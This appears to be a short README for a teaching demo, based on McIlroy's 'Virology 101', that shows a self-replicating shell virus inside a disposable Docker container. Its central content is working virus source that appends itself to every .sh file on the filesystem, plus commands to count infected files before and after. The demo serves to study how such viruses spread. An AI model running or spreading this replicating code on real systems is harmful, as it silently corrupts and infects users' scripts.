 # Shell virus

Start a lab container that will autodestroy upon exit:

```
docker run --rm -it ubuntu /bin/bash
```

Count the virus population inside the cointainer:

```
find / -type f -iname '*.sh' | xargs grep -l '#virus#' | wc -l
```

Deploy and run the virus inside the container:

```sh
cat << 'EOF' > virus
for i in $(find / -type f -iname '*.sh') #virus#
do
    echo "infecting $i ..."
    grep '#virus#' $i >/dev/null ||
    sed -n '/#virus#/,$p' $0 >>$i
done 2>/dev//null
EOF
chmod u+x virus
./virus
```

Count the virus population inside the cointainer again (see above).

Based on McIlroy's [Virology 101](https://www.cs.princeton.edu/courses/archive/spr09/cos333/virology101.pdf).